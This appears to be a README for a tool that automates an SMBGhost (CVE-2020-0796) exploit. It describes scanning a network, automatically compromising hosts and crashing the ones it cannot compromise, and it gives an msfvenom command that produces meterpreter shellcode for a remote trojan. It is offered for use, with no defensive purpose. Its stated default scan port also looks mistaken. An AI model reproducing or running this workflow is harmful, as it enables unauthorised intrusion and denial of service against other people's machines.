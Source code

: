 CVE-2020-0796 SMBGhost exploit
# illustrate
	Add automation to the original code,
		automatically search for devices on the network for 443 or customize the scanning port for automatic hacking, 
			if it cannot be hacked, 
			it will perform a blue screen attack

The required dependency is the netaddr module, which only needs to be installed with pip
	python3 -m pip install netaddr
	or
	pip install netaddr

# remote trojan
If you need to generate remote payloads
	msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f python -o shellcode.txt


> This project is just a vulnerability modified into an automated script, the code is not completely written by myself.

